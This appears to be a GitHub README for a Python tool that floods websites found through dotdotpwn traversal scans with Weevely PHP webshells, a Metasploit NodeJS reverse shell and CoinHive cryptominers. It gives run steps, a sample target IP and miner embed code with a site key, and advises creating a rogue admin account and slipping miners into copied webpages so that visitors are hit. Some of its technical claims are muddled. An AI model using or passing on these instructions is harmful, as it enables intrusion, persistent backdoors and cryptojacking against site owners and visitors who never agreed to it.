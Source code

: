 # Tropical Cumblast - A easy-mode, webshell/reverse-shell and cryptojacking malware spamming cannon



Written in under a day using

1. Python Requests


2. Needs dotdotpwn reports so it has something to parse


3. Preloaded with Weevely PHP Weaponized Webshells, one JavaScript reverse shell provided by Rapid7 and one example CoinHive Cryptominer


All it really does, is spam the living hell out of enumerated file upload vulnerabilities and path permissions issues that should have been taken care of by their administrators.

This is also known as host-header injection.

How it works is...

1. Reads a list of known directory traversal vulns from a wordlist
2. Generates a gigantic list of HTTP GET/POST/PUT requests,
3. Hammers the router with it for half an hour
4. And find out which one of the payloads made it.

You want to be looking at a traversal vulnerablity. that throws a code 302 or lower. That is the only chance we have at getting a stable shell to immediately work with.

Be warned, that it's quite tough. The first thing you should do if you land a shell is immediately get out of the environment, escalate your privileges and add yourself as a new username="admin". This app was specifically designed to launch Weevely PHP payloads, in both it's raw execuable form and as a embedded malware component on webpages.

# Installing and running it.

As long as you have dotdotpwn and some form of a reverse or web shell, then you are already ready to go.

1. Generate a wordlist of scanning results via dotdotpwn. dotdotpwn -m http -h http://ip.addr.ip.v4:80
2. Save the terminal results and change the value of 

**list_of_injectable_links** = "/root/dumppvulns.log"


**target** = "http://104.27.155.158:80"


**payload** = "thumbnails.php"

Then you need to generate some payloads. Be sure to take the shellcode and replace the values of these with it...

**raw_nodejs** = """
<html lang="en" dir="ltr">
    <meta charset="utf-8">
    <script type="text/javascript">
    </script>
    
**html_embedded_payload_buffer** = """
<html lang="en" dir="ltr">
    <meta charset="utf-8">
<script type="text/php">
    </script>
  
 # And remember to select your payload by changing the value of this.
 
**payload_buffer** = html_embedded_payload_buffer


With someone's index.html in the root web directory, with rwx permissions, then the payload will definitely go off even if its embedded as script tags in the html webpage. 

If someone loads your website. It goes off. Inside of THEIR webbrowser. And if they were to escape the sandbox of the web browser, then they got a lot to worry about.

# This already is working with...

1. Three working payloads from

      a. A Weevely PHP Penetration Testing Webshell
      b. A embedded PHP of that variant inside of a file called index.htm (it is created when the attack starts) due to the nature of POST requests
      c. A NodeJS Metasploit reverse shell, easily upgradable to Meterpreter.
  
Shell injection vulnerabilities are in fact, disturbingly common. If you own a wordpress, try running this against it to audit it.

# Official Steps

1. Generate a vulnerability report with dotdotpwn
2. Generate your own payloads using Weevely, Metasploit, Pupy, CoinHive, etc.
3. Load all of the obfuscated code into the script urlinjector.py

Point your cannon at whatever unsecured domain you found, and let it rip! Keep your reverse shell listeners running at ALL TIMES. If a web app payload embedded into a webpage snares someone, their reverse shell will be connecting IMMEDIATELY.
# Frighteningly enough, you can even blast websites with persistent cryptominers on it.

First make a account on CoinHive. https://coinhive.com/. Don't forget to get yourself a web wallet too for the Monero you'll be making.

Then take a look at the CONSENSUAL MINER CODE and merely replace the source web app link as so.

```
<script src="https://authedmine.com/lib/simple-ui.min.js" async></script>
<div class="coinhive-miner" 
	style="width: 256px; height: 310px"
	data-key="YOUR_SITE_KEY">
	<em>Loading...</em>
</div>
```
Here is the completed work. All you need to do is switch the src javascript file and add your official CoinHive key. Be sure to encrypt it when you actually use this blaster.

```
 <script src="https://coinhive.com/lib/coinhive.min.js"></script>
  <script>
  	var miner = new CoinHive.Anonymous('mPVwGCQgKvckboARWHMIe3CYLTISHSzU', {throttle: 0.3});

  	// Only start on non-mobile devices and if not opted-out
  	// in the last 14400 seconds (4 hours):
  	if (!miner.isMobile() && !miner.didOptOut(14400)) {
  		miner.start();
  	}
  </script>
```

Finally you want to enclose it with a ordinary webpage's syntax

```
<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <meta charset="utf-8">
    <title></title>
  </head>
  <body>
    <script src="https://authedmine.com/lib/simple-ui.min.js" async></script>
<div class="coinhive-miner"
	style="width: 256px; height: 310px"
	data-key="YOUR_SITE_KEY">
	<em>Loading...</em>
</div>
  </body>
</html>
```

Or just download someone else's page with wget or httrack and then slip this code in there before loading it into the cannon.


